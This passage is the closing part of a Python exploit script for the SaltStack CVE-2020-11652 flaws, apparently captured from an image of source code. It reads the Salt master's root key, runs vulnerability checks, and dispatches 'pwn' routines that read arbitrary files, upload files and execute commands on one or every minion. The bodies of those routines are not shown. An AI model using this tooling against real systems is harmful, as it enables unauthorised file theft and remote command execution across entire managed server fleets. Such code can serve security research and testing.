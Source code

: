             # Again, this assumes we're running this check on the master itself
            with salt.utils.fopen('/var/cache/salt/master/.root_key') as keyfd:
                root_key = keyfd.read()

            check_CVE_2020_11652_read_token(debug, channel, top_secret_file_path)
            check_CVE_2020_11652_read(debug, channel, top_secret_file_path, root_key)
            check_CVE_2020_11652_write1(debug, channel, root_key)
            check_CVE_2020_11652_write2(debug, channel, root_key)
            os.remove(top_secret_file_path)
            sys.exit(0)

        if args.read_file:
            pwn_read_file(channel, root_key, args.read_file, args.master_ip)

        if args.upload_src:
            if os.path.isabs(args.upload_dest):
                print('[-] Destination path must be relative; aborting')
                sys.exit(1)
            pwn_upload_file(channel, root_key, args.upload_src, args.upload_dest, args.master_ip)


        jid = '{0:%Y%m%d%H%M%S%f}'.format(datetime.datetime.utcnow())

        if args.exec:
            pwn_exec(channel, root_key, args.exec, args.master_ip, jid)

        if args.exec_all:
            print("[!] Lester, is this what you want? Hit ^C to abort.")
            time.sleep(2)
            pwn_exec_all(channel, root_key, args.exec_all, args.master_ip, jid)


    if __name__ == '__main__':
        main()